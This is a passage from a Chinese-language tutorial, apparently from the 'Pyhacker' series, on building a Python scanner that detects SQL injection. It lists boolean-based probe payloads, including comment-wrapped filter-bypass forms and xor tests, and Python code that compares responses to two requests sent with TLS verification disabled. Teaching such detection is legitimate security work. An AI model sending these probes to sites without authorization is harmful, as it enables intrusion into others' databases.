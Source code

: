 ![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/3.png)  

**00x3：**  

下面来说一下判断原理：  

1)?a=/*&id=1%20and%201=1%23*/    返回正常  

2)?a=/*&id=1%20and%201=2%23*/		返回错误  

1)xor 1=1    返回错误  

2)Xor 1=2    返回正常  

判断1 != 2 则存在SQL注入漏洞（如上两条语句都可以测试）  

我们分别利用两个请求测试，这样代码方便易读  

```
def req1(url):
    global html1
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    html1 = req.content

def req2(url):
    global html2
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    html2 = req.content
```  

**00x4：**  

判断SQL注入漏洞  

```
def main():
    req1(urls[0])
    req2(urls[1])
    if html1 != html2:
        print "[+] Find SQL"
    else:
        print "NO"
```  

调试一下：  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/4.png)  

**00x5：**  

